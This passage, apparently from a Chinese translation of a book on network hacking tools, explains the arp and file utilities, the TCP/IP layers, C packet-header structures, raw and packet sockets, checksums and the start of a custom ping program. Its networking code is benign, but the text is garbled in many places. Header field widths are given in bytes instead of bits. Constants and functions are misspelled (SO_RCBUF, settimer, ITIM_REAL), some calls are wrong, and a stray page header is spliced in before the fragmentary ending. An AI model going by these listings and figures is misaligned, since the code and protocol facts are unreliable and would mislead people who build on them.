`file` 工具对每个指定文件执行一系列测试，试图对其进行分类。对于文本文件，该工具尝试通过前 512 字节确定编程语言。对于可执行文件，该工具显示关于平台、版本以及文件库结构的信息。以下是运行 `file` 工具的两个示例：

```
# file your_prog
/your_prog: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped

# file your_prog
/your_prog: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, stripped
```

### 2.20 Arp

`arp` 工具用于查看和操作系统的 ARP 缓存。`-a` 选项以 BSD 风格输出 ARP 缓存的所有内容，`-e` 选项以 Linux 风格输出：

```
# arp -e
```

`-d` 选项用于清除指定主机的条目：

```
# arp -d IP_address
```

然而，条目并没有从缓存中删除；只是硬件地址字段（HWaddress）被清空了。

可以使用 `-s` 选项将主机到硬件地址的映射条目添加到缓存中：

```
# arp -s IP_address MAC_address
```

# 第 3 章：网络编程导论

## 3.1 TCP/IP 协议栈

为了使用 IP 地址对整个网络进行路由，因为 IP 地址仅在 IP 数据报文的头部中使用。IP 是一种不可靠的、无连接协议。这意味着每个数据报文在网络上的发送都是独立于其他报文的，因此无法保证任何数据报文能到达目的地，也无法保证报文按原始顺序到达。IPv4 在注释（RFC 791）中进行了详细描述。

- 互联网控制消息协议（ICMP）负责为 IP 提供不同层级的服务，并发送有关路由 IP 数据报文出现问题的消息。ICMP 定义在 RFC 792 中，RFC 950 和 RFC 1256 提供了额外信息。

- 地址解析协议（ARP）负责将节点的 IP 地址映射到其硬件（MAC）地址。ARP 定义在 RFC 826 中。还存在反向地址解析协议（RARP），它可以将 MAC 地址解析为 IP 地址。RARP 定义在 RFC 903 中。

- 传输控制协议（TCP）是一种可靠的、面向连接的协议。也就是说，它通过确认机制和在需要时重传数据包来保证数据包和虚拟连接的交付。TCP 定义在 RFC 793 中，RFC 1072 和 RFC 1146 对其进行了修订。

- 用户数据协议（UDP）为指定节点上的特定应用程序提供简单、不可靠的通信。UDP 定义在 RFC 768 中。

上述协议可以被视为基础协议，因为它们构成了 TCP/IP 网络运行的基础。

面向连接的协议（如 TCP）通常称为流协议；无连接的协议（如 IP、UDP、ICMP、ARP 和 RARP）称为数据报协议。

其他协议栈使用自己的协议套件。例如，Novell 的 IPX/SPX 栈是一组由 NLS、IPX、SPX、NCP、SAP 等组成的协议套件。单个协议并不非要属于单一栈。在实践中，应用协议和通道协议仅按惯例调用 TCP/IP 栈，它们可以在其他协议中运行并工作。

TCP/IP 栈基于多层协议交互方案。TCP/IP 协议映射到一个四层概念模型：应用层、传输层、网际层和网络接口层。

国际标准组织（ISO）提出了自己的通用协议栈模型，称为 OSI 参考模型。然而，该模型并未被使用，仅作为分类和比较协议栈的标准。图 3.1 显示了 TCP/IP 栈层及其部分协议到 OSI 模型的近似映射。

在后续材料中，提到协议层时未指定其属于 OSI 模型还是 TCP/IP 栈。你应该能够自己判断，图 3.1 旨在帮助你完成此任务。

### 图 3.1 TCP/IP 栈层到 OSI 模型的近似映射

| OSI 模型标准 | 协议 | TCP/IP 栈 |
| --- | --- | --- |
| 应用层 | HTTP, FTP, Telnet, SMTP, | 应用层 |
| 表示层 | SSL, SSH, SNMP | |
| 会话层 | | |
| 传输层 | TCP, UDP | 主机到主机传输层 |
| 网际层 | IP, ICMP, IGMP, RIP, ARP, RARP, OSPF | 网际层 |
| 数据链路层 | Ethernet, FDDI, ATM, PPP, SLIP, X.25, Token Ring | 网络接口层 |
| 物理层 | | |

## 3.2 RFC 作为信息的主要来源

TCP/IP 栈中的协议标准以及互联网的相关工作被发表在一系列具有唯一编号的文档，即 RFC（请求意见）中。原始的 RFC 从不更新；如果需要更改，则会在新的 RFC 中发布。RFC 分为以下几个子集：

- 标准 (STD) 文档发布了通过互联网工程任务组（IETF）审查和测试程序并被官方接受标准的互联网协议。

- 供信息 (FYI) 文档是面向普通公众的介绍性和信息性材料。

- 最佳当前实践 (BCP) 文档描述了有关互联网技术的受认可程序和建议。

每个列表都有自己的编号顺序。通常，同一个文档可以以不同的编号包含在不同的系列中。例如，RFC 3066“语言标识标记”也称为 BCP 47。

你可以从不同来源获取 RFC，最简单的方法是来自 `http://www.faqs.org/rfc/` 或 `http://www.rfc-editor.org` 网站。后者是 RFC 文档的汇集中心。这两个网站都提供了易于使用的关键词搜索功能，如果你不知道所需的 RFC 编号，这会非常方便。你也可以从那里下载完整的 RFC 索引。

## 3.3 数据包与封装

数据以数据包的形式在网络上传输，其最大大小由数据链路层决定。每个数据包由一个头部（header）和一个负载（payload），或简单称为数据组成。头部包含不同的服务数据，例如数据包的源和目的。负载是必须传输的数据。

传输数据块的名称取决于具体的 TCP/IP 栈层以及所考虑的是数据报协议还是流协议（见图 3.2）。

### 图 3.2 用于表示 TCP/IP 栈不同数据块的术语

| 流协议 (TCP) | 数据报协议 (IP, UDP, ICMP) |
| --- | --- |
| 应用层 | 流 | 消息 |
| 主机到主机传输层 | 段 | 数据包 |
| 网际层 | 数据报 | 数据报 |
| 网络接口层 | 帧 | |

### 图 3.3 在 TCP/IP 栈中形成数据包

| | TCP/IP 栈 |
| --- | --- |
| 应用层 | |
| 主机到主机传输层 | |
| 网际层 | |
| 网络接口层 | |

在本书中，我主要使用“数据包”一术语。

数据包是从顶层构建的。每一层为数据包添加自己的头部。这个过程被称为封装。考虑一个特定的示例（见图 3.2）。想要查看 `http://www.example.com` 的用户按下回车键。浏览器遵循以下请求：

```
GET / HTTP/1.1
Host: www.example.com
```

此数据块传递给传输层。根据 RFC 2068，HTTP 要求可靠传输，因此添加了 TCP 头部。TCP 头部指定了目的端口（通常为 80）、源端口以及其他信息。TCP 头部的详细结构见 3.4 节。传输层将数据包传递给网际层，网际层为数据包添加其 IP 头部。互联网头部包含源目的 IP 地址以及其他信息。如果无法使用本地资源将域名（即 `www.example.com`）解析为 IP 地址，IP 模块将通过向 DNS 服务器发送请求来实现。从网际层开始，数据包发送到网络层。在此层添加的头部类型取决于网络类型。在示例中，为以太网添加以太网头部（对于光纤分布式数据接口网络添加 FDDI 头部，对于点对点连接添加 PPP 头部，等等）。

以太网层包含源目的硬件 MAC 地址。MAC 地址通过搜索计算机的 ARP 缓存来确定。如果在本地 ARP 缓存中未找到 MAC 地址，将形成 ARP 请求，通过目的 IP 地址搜索目的 MAC 地址。

当数据包完全组装后，它被发送到网络。由于数据包可能会通过不同的网络，数据链路头部可能会被经过路由器更改。此外，如果网络限制无法完成数据包，数据包可能会被分成更小的数据包。

当数据包到达接收者时，TCP/IP 栈按反方向重复操作。首先，检查数据链路头部并验证硬件地址。剩余部分发送到网际层。网际层检查 IP 地址、校验和其他数据。如果所有检查通过，它将移除 IP 头部并将剩余部分传递给传输层。传输层检查目的端口、校验和以及其他的 TCP 头部字段；如果所有检查都通过，TCP 头部将被移除，数据包的剩余部分将传递到应用层交给 Web 服务器。Web 服务器检查 HTTP 请求并准备 HTTP 响应。响应将是请求的页面，或者在找不到该页面时返回错误消息。然后，响应通过服务器的 TCP/IP 栈传输，类似于请求通过客户端的 TCP/IP 栈的方式。

## 3.4 网络数据包头部结构


为了能够处理网络数据包头部字段，程序必须定义必要的结构。Linux 将所有主要网络数据包的结构定义存储在单独的头文件中，根据需要包含在程序中。此外，这些头文件的一套独立集合存储在两个不同的目录中。第一个目录是 `/usr/include/linux`，仅供 Linux 系统使用。另一个目录是 `/usr/include/netinet`，几乎用于所有的 UNIX 系统。某些 UNIX 的头文件也存储在 `/usr/include/net` 目录。

以下是从 `/linux` 目录包含头文件的几个示例：

```c
#include <linux/ip.h>
#include <linux/tcp.h>
#include <linux/udp.h>
#include <linux/icmp.h>
#include <linux/if_ether.h>
```

这些是从 `/netinet` 和 `net` 目录包含头文件的示例：

```c
#include <netinet/ip.h>
#include <netinet/tcp.h>
#include <netinet/udp.h>
#include <netinet/ip_icmp.h>
#include <net/ethernet.h>
```

头文件的名称描述了它们的功能。例如，`udp.h` 文件包含 UDP 头部结构的定义，`if_ether` 和 `ethernet.h` 文件包含以太网头部结构的定义，而 `if_icmp.h` 和 `icmp.h` 文件包含 ICMP 头部结构的定义。

这两个目录中头文件中的结构基本上相同，唯一的区别在于结构字段的名称。此外，根据我的经验，我可以得出结论：`/usr/include/linux` 目录中的结构更为新，反映了网络协议的最新创新。例如，`/linux/tcp.h` 头文件中的 TCP 头部结构具有 ECN 和 CWR 实验性字段（参见 RFC 3168），而 `/netinet/tcp.h` 头文件中的对应结构缺少这些字段。因此，如果你的程序必须兼容各种 UNIX 版本，你应该使用来自 `/usr/include/netinet` 和 `/usr/include/net` 目录的头文件。如果只需要 Linux 兼容性和现代结构，则应该使用 `/usr/include/linux` 目录的头文件。你也可以混合使用这些目录的头文件，但要小心结构定义不要重叠。

比在程序中包含标准头文件更好的方法是，许多程序员都在这样做：你不包含标准头文件中的结构，而是在程序中重新定义你自己的网络数据包结构。这可以通过简单地从标准头部拷贝必要的结构，并根据需要修改结果结构中的字段名称来实现。自定义结构也可以存储在自定义的头文件中，并包含在你的程序中。这种方法提供了完全的可移植性，因为它消除了对系统头文件的依赖。它也有一个缺点：这非常繁琐，特别是当你需要在程序中定义大量的结构时。

对于本书，我最初想用一种统一的方法，即在所有处理数据包头部字段的程序中仅包含来自一个标准目录的结构，即 `/usr/include/netinet`。然而，在考虑之后，我放弃了这种方法，并倾向于混合方法。本书中的源代码包含了来自 `/usr/include/inet` 和 `/usr/include/netinet` 目录的头文件，以及结构定义。

以下子节简要描述了主要的网络数据包格式。此外，还给网络数据包的头部结构定义，你可以将其作为自定义结构用在程序中。没有提供字段描述；你可以从相应的 RFC 中学习它们。仅提供了编程所需的特定信息。

头部结构基于 `/usr/include/linux` 目录中的头文件，但并不是它们的精确副本。

### 3.4.1 以太网头部

图 3.4 显示了以太网包的格式，列表 3.1 显示了以太网头部结构的定义。

| 目的硬件地址 | 源硬件地址 | 数据包类型 |
| :--- | :--- | :--- |
| (6 字节) | (6 字节) | (2 字节) |
| | 数据 | |

图 3.4. 以太网数据包格式

列表 3.1. 以太网头部结构定义

```c
struct ethhdr {
    unsigned char h_dest[ETH_LEN];    /* 目的硬件地址 */
    unsigned char h_source[ETH_LEN];  /* 源硬件地址 */
    unsigned short h_proto;            /* 数据包类型 */
};
```

以下是从 `/linux/if_ether.h` 头文件中摘取的一些常量和定义，你可以在程序中使用：

```c
#define ETH_ALEN 6 /* 硬件地址的字节数 */

/* “数据包类型”字段的值 */
#define ETH_P_IP 0x0800 /* IP 数据包 */
#define ETH_P_X25 0x0805 /* X.25 数据包 */
#define ETH_P_ARP 0x0806 /* ARP 包 */
#define ETH_P_RARP 0x0835 /* RARP 包 */
#define ETH_P_ALL 0x0003 /* 所有协议 */
```

### 3.4.2 IP 头部

图 3.5 显示了 IP 数据包的格式，列表 3.2 显示了 IP 头部结构。

| 头部 | 服务类型 | 总长度 |
| :--- | :--- | :--- |
| (4 字节) | (8 字节) | (16 字节) |
| 数据包标识 | | 分片偏移 |
| (16 字节) | (4 位) | (8 字节) |
| TTL | 协议 | 头部校验和 |
| (8 字节) | (8 字节) | (16 字节) |
| 源 IP 地址 | (32 字节) | |
| 目的 IP 地址 | (32 字节) | |
| 选项和填充 | 40 字节 | |
| 数据 | | |

图 3.5. IP 包格式

列表 3.2. 头部结构定义

```c
typedef unsigned char __u8;
typedef unsigned short __u16;
typedef unsigned int __u32;

struct iphdr {
  __u8 ihl:4;         /* 头部长度（以字为单位） */
  version:4;          /* 版本 */
  __u8 tos;           /* 服务类型 */
  __u16 len;          /* 总长度（以字节） */
  __u16 id;           /* 数据包标识 */
  __u16 frag_off;      /* 标志和分片偏移 */
  __u8 ttl;           /* 生存时间 */
  __u8 protocol;      /* 协议 */
  __u16 check;         /* 校验和 */
  __u32 saddr;        /* 源 IP 地址 */
  __u32 daddr;        /* 目的 IP 地址 */
};
```

IP 头部中的单独标志位于结构的 `frag_off` 字段，可以通过对此字段进行位运算结合以下宏定义来访问：

```c
#define IP_RF 0x8000      /* 保留（设置为 0） */
#define IP_DF 0x4000      /* 禁止分片 */
#define IP_MF 0x2000      /* 有后续分片 */
#define IP_OFFSETMASK 0xfff /* “分片偏移”字段的掩码 */
```

以下是从 `/netinet/in.h` 头文件中摘取的常量和定义，你可以在程序中使用：

```c
/* “协议”字段的值 */
enum {
    IPPROTO_IP = 0,       /* 用于 TCP 的占位协议 */
    IPPROTO_ICMP = 1,     /* ICMP */
    IPPROTO_IGMP = 2,     /* IGMP */
    IPPROTO_TCP = 6,      /* TCP */
    IPPROTO_EGP = 8,      /* 外部网关协议 */
    IPPROTO_UDP = 17,     /* UDP */
    IPPROTO_RAW = 255,    /* 原始 IP 包 */
};
```

### 3.4.3 ARP 头部

列表 3.3. ARP 头部结构定义

```c
struct arphdr {
    unsigned short ar_hrd;      /* 设备类型 */
    unsigned short ar_pro;      /* 协议类型 */
    unsigned char ar_hln;       /* 硬件地址长度 */
    unsigned char ar_pln;       /* 协议地址长度 */
    unsigned short ar_op;      /* 操作码 */
    unsigned char ar_sha[ETH_LEN];  /* 源硬件地址 */
    unsigned char ar_sip[4];       /* 源 IP 地址 */
    unsigned char ar_tha[ETH_LEN];  /* 目的硬件地址 */
    unsigned char ar_tip[4];       /* 目的 IP 地址 */
};
```

| 设备类型 | 协议类型 | |
| :--- | :--- | :--- |
| (16 bits) | (16 bits) | |
| H-len | P-len | 操作码 |
| (8 bits) | (8 bits) | (16 bits) |
| 源硬件地址 | (32 bits) | |
| 源协议地址 | (32 bits) | |
| 目的硬件地址 | (32 bits) | |
| 目的协议地址 | (32 bits) | |

图 3.6. arp.h 数据包的格式

以下是从 `/linux/if_arp.h` 头文件中摘取的一些常量和定义，你可以在你的程序中使用它们：

```c
/* “设备类型”字段的值 */
#define ARPHRD_ETHER 1    /* 以太网 10 Mbps */
#define ARPHRD_ARCHET 7    /* ARPCnet */
#define ARPHRD_ATM 19      /* ATM */
#define ARPHRD_X25 271     /* CCITT.X.25 */
#define ARPHRD_PPP 512
```

```c
/* “操作类型”字段的值 */
#define ARPOP_REQUEST 1    /* ARP 请求 */
#define ARPOP_REPLY 2      /* ARP 响应 */
#define ARPOP_RREQUEST 3   /* RARP 请求 */
#define ARPOP_RREPLY 4     /* RARP 响应 */
```

RARP 数据包的格式和 RARP 头部结构与 ARP 数据包几乎相同，唯一的区别在于操作码字段的值。

请注意以下重要点。在头文件中 ARP 头部结构的定义中，最后四个字段包含在 `#if 0` 和 `#endif` 预处理器指令之间；也就是说，禁止访问这些字段。对于 `/linux/if_arp.h` 和 `/net/if_arp.h` 都是如此。此外，在程序中使用这些字段将产生编译器错误。使用这些字段的唯一方法是定义自己的 ARP 头部结构。最简单的方法是直接从列表 3.3 拷贝源代码。

### 3.4.4 TCP 头部

图 3.7 显示了 TCP 数据包的格式，列表 3.4 显示了 TCP 头部结构的定义。

| IP 头部 | | |
| :--- | :--- | :--- |
| 源端口 (16 bits) | | 目的端口 (16 bits) |
| | 序列号 (32 bits) | |
| | | 确认号 (32 bits) | |
| 偏移量 (4 bits) | 预留 (4 bits) | C E U A P R S F 窗口大小 (16 bits) |
| | | W C R S S Y I | |
| | | E G K H T N N | |
| | | 头部校验和 (16 bits) | 紧急数据指示位 (16 bits) |
| | 参数与对齐 | | |
| 数据 | | | |

图 3.7. TCP 数据包的格式

列表 3.4. TCP 头部结构定义

```c
typedef unsigned short __u16;
typedef unsigned int __u32;

struct tcphdr {
    __u16 source;    /* 源端口号 */
    __u16 dest;      /* 目的端口号 */
    __u32 seq;       /* 序列号 */
    __u32 ack_seq;   /* 确认号 */
    __u16 res1:4;    /* 预留 */
    doff:4;      /* 数据偏移量 */
    fin:1;      /* 关闭连接 */
    syn:1;      /* 请求建立连接 */
    rst:1;      /* 中置连接 */
    psh:1;      /* 立即向进程发送消息 */
    ack:1;      /* 启用确认号字段 */
    urg:1;      /* 启用紧急指针字段 */
    ece:1;      /* 实验性标志 (RFC3168) */
    cwr:1;      /* 实验性标志 (RFC3168) */
    unsigned short window;  /* 窗口大小 */
    unsigned short check;   /* 校验和 */
    unsigned short urg_ptr;  /* 紧急消息的最后一个字节 */
};
```

### 3.4.5 UDP 头部

图 3.8 显示了 UDP 数据包的格式，列表 3.5 显示了 UDP 头部结构的定义。

| IP 头部 | |
| :--- | :--- |
| 源端口 (16 bits) | 目的端口 (16 bits) |
| 长度 (16 bits) | 校验和 (16 bits) |
| 数据 | |

图 3.8. UDP 数据包的格式

列表 3.5. UDP 头部结构

```c
typedef unsigned short __u16;

struct udphdr {
    __u16 source;   /* 源端口 */
    __u16 dest;     /* 目的端口 */
    __u16 len;      /* 长度 */
    __u16 check;    /* 校验和 */
};
```

### 3.4.6 ICMP 头部

图 3.9 显示了 ICMP 数据包的格式，列表 3.6 显示了 ICMP 头部的定义。

| 类型 (8 bits) | 代码 (8 bits) | 校验和 (16 bits) |
| :--- | :--- | :--- |
| 标识符 (16 bits) | 序列号 (16 bits) | |

图 3.9. ICMP 数据包的格式

列表 3.6. ICMP 头部定义

```c
typedef unsigned short __u16;

struct icmphdr {
    unsigned char type;         /* 类型 */
    unsigned char code;         /* 代码 */
    unsigned short checksum;   /* 校验和 */
    unsigned short id;          /* 标识符 */
    unsigned short sequence;   /* 序列号 */
};
```

### 3.5.2 网络层：原始套字

```c
sd = socket(PF_INET, SOCK_RAW, IPPROTO_ICMP);
```

```c
/* 发送任何类型的数据包 */
sd = socket(PF_INET, SOCK_RAW, IPPROTO_RAW);
```

你应该注意协议规范方面的一个特殊重要性：所有的协议常量都允许创建的套字发送和接收数据包，只有当在协议参数中指定 `IPPROTO_RAW` 常量时，才能发送任何类型的数据包。编译器不会生成任何错误，但尝试在用 `IPPROTO_RAW` 协议创建的套字上接收数据包将不会成功。

你可以使用原始套字（raw sockets）发送自定义数据包。然而，当发送数据包时，其头部将由 TCP/IP 协议栈生成。因此，如果你需要自定义的 IP 头部，必须使用 `setsockopt()` 函数为原始套字指定 `IP_HDRINCL` 选项，如下：

```c
const int on = 1;
if (setsockopt(sd, IPPROTO_IP, IP_HDRINCL, (char *)on, sizeof(on)) < 0) {
    perror("setsockopt failed!");
    exit(1);
}
```

特权用户可以创建原始套字。

原始套字不提供数据链路层字段的访问；因此，为了获得这种访问权限，你必须使用包套字（packet sockets）。

有关原始套字的详细信息，请参阅 man 7 raw。

### 3.5.3 数据链路层：包套字


# 数据链路层：包套字

为了访问数据链路层，必须使用 `PF_PACKET` 常量作为 `socket()` 函数的域参数。这种类型的套接字被称为包套字。注意，这是唯一一种指定 `PF_PACKET` 而不是 `PF_INET` 作为域参数的套接字类型。这种套接字使得在设备驱动程序层（OSI 数据链路层）发送和接收数据包成为可能。

可以指定 `SOCK_RAW` 或 `SOCK_DGRAM` 常量作为类型参数。

使用 `SOCK_RAW` 时，数据包以未修改的形式发送到并从设备驱动程序接收。如果程序处理了接收到的数据包中的字段，必须准备一个缓冲区来容纳所有数据包头部，即数据链路层的头部。

`SOCK_DGRAM` 运行在更高层次。TCP/IP 协议栈在将数据包传递给程序之前会剥离数据链路头部。使用 `SOCK_DGRAM` 包套字发送的数据包在发送之前会自动附带合适的数据链路层头部。换句话说，`SOCK_DGRAM` 类型的套字不允许访问数据链路层头部。

可以指定使用的任何协议。`/linux/if_eth.h` 文件包含了可以使用的协议列表，其中某些在 3.4.1 节中提到过。如果 `protocol` 的值为 `htons(ETH_P_ALL)`，程序将支持所有协议。

## 创建包套字示例

以下是创建包套字的一些示例：

```c
/* 接收或发送 ARP 包 */
sd = socket(PF_PACKET, SOCK_RAW, htons(ETH_P_ARP));
```

```c
/* 接收或发送 IP 包，且不需要访问数据链路层头部 */
sd = socket(PF_PACKET, SOCK_DGRAM, htons(ETH_P_IP));
```

```c
/* 接收或发送任何类型的数据包 */
sd = socket(PF_PACKET, SOCK_RAW, htons(ETH_P_ALL));
```

### 过时的创建方法

还有另一种过时的创建包套字的方法：在 Linux 2.0 中，获取包套字的唯一方法是执行以下操作：

```c
socket(PF_INET, SOCK_RAW, protocol);
```

这种方法是受支持的，但我强烈建议不要使用它。两种方法之间的主要区别是 `PF_PACKET` 使用 `struct sockaddr_ll` 来指定接口，这并没有使物理层具有独立性。我之所以描述这种方法是为了创建包套字，因为你应该能够读到它们的源码。Richard Stevens 在他的书中也使用了这种相同方法。

### 所需头文件

使用包套字的程序必须包含以下头文件：

```c
#include <sys/socket.h>
#if __GLIBC__ > 2 || (__GLIBC__ == 2 && __GLIBC_MINOR__ >= 1)
#include <linux/packet.h>
#include <net/ether.h>  /* L2 协议 */
#else
#include <asm/types.h>
#include <linux/if_packet.h>
#include <linux/if_ether.h>  /* L2 协议 */
#endif
```

### 套接字地址结构

包套字有一个简单的套接字地址结构：

```c
struct sockaddr_ll {
    unsigned short sll_family;    /* 始终为 AF_PACKET */
    unsigned short sll_protocol;  /* 物理层协议 */
    int            sll_ifindex;   /* 接口索引 */
    unsigned short sll_hatype;    /* 头部类型 */
    unsigned char  sll_pkttype;   /* 包类型 */
    unsigned short sll_halen;     /* 地址长度 */
    unsigned char  sll_addr[8];   /* 物理层地址 */
};
```

有关包套字的详细信息，请参阅 `man packet`。

# 包头部中的校验和

大多数包头部都有校验和字段。计算校验和的算法在协议的 RFC 中描述。默认情况下，TCP/IP 协议栈在发送数据包时填充所有头部的校验和字段，并在接收数据包时验证校验和。

## UDP 伪头部与校验和计算

| 源地址 (32 位) | 目的地址 (32 位) | 零 (8 位) | 协议 (8 位) | 长度 (UDP 头部 + 数据) (16 位) |
|---|---|---|---|---|
| UDP 头部 | | | | |

图 3.11 用于计算 UDP 头部校验和的伪头部

因此，在计算 UDP 头部校验和时，必须向 `in_cksum()` 函数传递伪头部的起始地址，以及伪头部、UDP 头部和数据字段的总长度。

RFC 768 中有一个关于 UDP 头部校验和的重要规范，这在其他协议中是不存在的。该规范规定，如果计算出的校验和为 0，则将其以全 1 的形式传输（反码算术中的等效值）。全 0 的传输校验和值意味着发送者没有生成校验和。

因此，你必须检查 `in_cksum()` 函数返回的 UDP 头部校验和值，如果为 0，则将其替换为 `0xffff` 值。注意，此过程不需要对其他头部执行，因为 IP、TCP 和 ICMP 头的零值校验和并不意味着它经过了计算。

需要记住的一点是，如果头部或数据字段中的单个位发生变化，必须重新计算校验和。例如，如果 IP 头部中的生存时间（TTL）值发生变化，则该头部的校验和字段必须重新计算。此 RFC 要求适用于所有相关的头部。因此，在示例程序中，在调用 `in_cksum()` 函数之前，会将校验和字段设置为 0。

# 非标准库

为了让编写网络实用工具的任务更容易，你可以利用非标准的第三方库，例如 libnet 和 libpcap。

- **libnet 库** (http://www.packetfactory.org/projects/libnet/) 为程序提供了生成任何格式数据包所需的所有必要工具。
- **libpcap 库** (http://www.tcpdump.org) 的作用相反：从网络中提取数据包并对其进行分析。

这两个库都可用于 `tcpdump` 和最新版本的 `nmap` 等程序中。然而，在大多数情况下，黑客会避免使用非标准库，因为在这种情况下，在使用工具之前必须安装必要的库，这并不方便。

使用 libnet 和 libpcap 库被认为是更好的做法。

# 第 4 章：Ping 工具

ping 工具是任何功能全的操作系统的标准工具。该工具的原始用途是检查远程主机的可用性，而不是作为网络工具。但黑客可以使用 ping 来探测网络（ping 扫描）。如今，管理员使用防火墙阻止单个计算机和网络网关上的入站出站 ICMP 消息，这使得探测 ping 失效。尽管如此，了解 ping 的内部原理仍然很重要，因为许多网络攻击工具都基于相同的操作，例如拒绝服务 ICMP 洪水攻击和 Smurf 攻击。此外，ping 还经常与网络扫描工具集成。

## 4.1 通用操作

ping 工具由已故的 Mike Muuss 创建，他曾是美国陆军实验室的员工，于 1983 年为 BSD 操作系统编写了第一版本的 ping。“ping”这个名字不是缩写词，也不是 Muuss 随机选择的。根据他的网站 (http://ftp.urf.mil/~mike)，该工具是以声纳命名的。ping 工具在计算机网络中启动声纳操作。它向指定的 IP 地址或主机名发送 ICMP 回显请求，接收 ICMP 回显应答，并计算数据包的往返时间。

以下是在 Linux 中调用 ping 的示例及其结果：

```
ping 192.168.10.1
PING 192.168.10.1 (192.168.10.1) from 192.168.10.1: 56(84) bytes of data.
64 bytes from 192.168.10.1: icmp_seq=0 ttl=255 time=6.60 msec
64 bytes from 192.168.10.1: icmp_seq=1 ttl=255 time=411 usec
64 bytes from 192.168.10.1: icmp_seq=2 ttl=255 time=301 usec
64 bytes from 192.168.10.1: icmp_seq=3 ttl=255 time=375 usec
64 bytes from 192.168.10.1: icmp_seq=4 ttl=255 time=369 usec
64 bytes from 192.168.10.1: icmp_seq=5 ttl=255 time=329 usec
64 bytes from 192.168.10.1: icmp_seq=6 ttl=255 time=355 usec
64 bytes from 192.168.10.1: icmp_seq=7 ttl=255 time=291 usec

--- 192.168.10.1 ping statistics ---
9 packets transmitted, 9 received, 0% packet loss
round-trip min/avg/max/mdev = 0.291/1.058/6.760/2.016 ms
```

该工具按以下列输出：接收到的字节数、目标主机的 IP 地址和名称（如果有）、数据包序列号（`icmp_seq`）、IP 头部中的 TTL 以及往返时间。默认情况下，工具会一直发送和接收 ICMP 包，直到按下 `Ctrl+C` 组合键。程序终止后，它会输出：发送和接收的数据包数量、丢包百分比，以及最小、最大、平均往返时间。后版本的 ping 还输出 `mdev`。遗憾的是，我没能找到关于该参数名称的任何提及，但据我推断，它表示标准差。

回显包按照发送顺序到达。由于数据包在传输过程中可能会丢失，序列号可能会出现间隙。在统计数据中，接收到的 ICMP 消息数量可能与发送数量不同。

通过 ping 的源码，我将向你展示如何编写该程序的自定义版本。

## 4.2 构建自定义 Ping 工具

自定义 ping 工具的源码如列表 4.1 所示。我将其命名为 `xping.c` 以区分于标准的系统工具。

考虑编写 ping 工具时必须解决的主要问题。

为了接收和发送 ICMP 消息，必须在 `socket()` 中创建一个原始套字（`SOCK_RAW`），并指定 `IPPROTO_ICMP` 常量作为协议：

```c
sd = socket(PF_INET, SOCK_RAW, IPPROTO_ICMP);
```

虽然 `IPPROTO_ICMP` 常量定义在 `<netinet/in.h>` 头文件中，但程序没有必要包含该文件，因为它包含在 `<netinet/ip.h>` 和 `<netinet/icmp.h>` 头文件中。只有特权用户才能创建原始套字；标准的 Linux ping 工具设置了用户标识（SUID）位（在此处的 `ls` Linux 输出所示）：

```
-rwxr-xr-x 1 root root 22620 Jan 16 2001 /bin/ping
```

自定义 ping 工具编译并构建后，也可以设置 SUID 位，以便普通用户可以使用。在程序中，在使用 `setuid()` 创建原始套字后，会恢复原始用户标识：

```c
setuid(getuid());
```

为了让工具广播消息，使用 `setsockopt()` 函数设置 `SO_BROADCAST` 套字参数。标准 ping 工具只有在启动时在命令行指定了 `-b` 选项时才能发送消息。这种预防措施是合理的，因为向多节点网络发送广播消息可能会导致多个响应导致发送节点遭受拒绝服务。

```c
setsockopt(fd, SOL_SOCKET, SO_BROADCAST, &on, sizeof(on));
```


为了防止大量响应溢出接收缓冲区，将其大小设置为 61,440 字节（60 × 1,024），这个大小足够大，并且比标准工具中的默认缓冲区大小大。接收缓冲区的大小通过 `setsockopt()` 函数对 `SO_RCBUF` 变量进行设置：

```c
size = 60 * 1024;
setsockopt(fd, SOCK_SOCKET, SO_RCBUF, &size, sizeof(size));
```

ping 工具以每秒一次的速度发送请求；因此，对于自定义工具，使用 `settimer()` 函数设置定时器，在程序运行期间每秒生成一次 `SIGALRM` 信号：

```c
struct itimeval timer;
/* 启动定时器发送 SIGALRM 信号 */
/* 定时器将在 1 微秒后触发 */
timer.tv_value.tv_sec = 0;
timer.tv_value.tv_usec = 1;
/* 定时器每秒激活一次 */
timer.tv_interval.tv_sec = 1;
timer.tv_interval.tv_usec = 0;
/* 启动实时定时器 */
setitimer(ITIM_REAL, &timer, NULL);
```

为了拦截 `SIGALRM`，使用 `sigaction()` 函数设置信号处理器：

```c
/* 为 SIGALRM 和 SIGINT 信号设置处理器 */
memset(&act, 0, sizeof(act));
/* 将 catcher() 函数赋值为处理器 */
act.sa_handler = &catcher;
sigaction(SIGALRM, &act, NULL);
```

信号处理器是 `catcher()` 函数；当 `SIGALRM` 信号到达时，它简单地调用 `pinger()` 函数来发送回显请求：

```c
void catcher(int sign) {
    if (sign == SIGALRM) {
        p();
        return;
    }
}
```

因此，程序每秒调用一次 `pinger()` 函数，每次调用发送一个回显。

在程序停止（用户按下 <Ctrl+C> 键组合）后，必须输出数据包收发的统计信息。此键组合发送 `SIGINT` 信号，因此也必须为程序添加该信号的处理器：

```c
sigaction(SIGINT, &act, NULL);
```

该信号将由 `catcher()` 函数处理。数据往返时间使用以下简单的方案计算：在发送回显请求之前，使用 `gettimeofday()` 函数确定当前系统时间，并将其发送的 ICMP 包的数据字段 (`icmp->icmp_data`)：

```c
gettimeofday((struct timeval *)icmp->icmp_data, NULL);
```

如所述，回显消息中的数据内容与相应的回显请求消息相同。当收到回显时，再次使用 `gettimeofday()` 函数确定当前系统时间，当前系统时间与包中保存的时间之差即为往返时间。在该程序，两个时间结构之间的差异由 `tv_sub()` 函数处理，该函数计算差异。当前系统的秒数 (`out->tv_sec`) 不可能到达包的秒数 (`in->tv_sec`)。然而，到达包的微秒 (`out->tv_usec`) 可能是负数。因此，在微秒为负的情况下，必须减去 1 微秒。将往返时间转换为毫秒：

```c
rtt = (out->tv_sec - in->tv_sec) * 1000.0 + (out->tv_usec - in->tv_usec) / 1000.0;
```

# 第58章：第二部分 网络黑客工具

```c
exit(-1);
}
```

```c
/* 恢复初始权限 */
setuid(getuid());
/* 启用广播能力 */
setsockopt(sd, SO_SOCKET, SO_BROADCAST, &on, sizeof(on));
/* 增大接收缓冲区大小 */
size = 60*1024;
sockopt(sd, SO_SOCKET, SO_RCVBUF, &size, sizeof(size));
/* 启动定时器发送 SIGALRM 信号 */
/* 定时器在1微秒后触发 */
timer.it.value.tv_sec = 0;
timer.it.value.tv_use = 1;
/* 定时器每秒触发一次 */
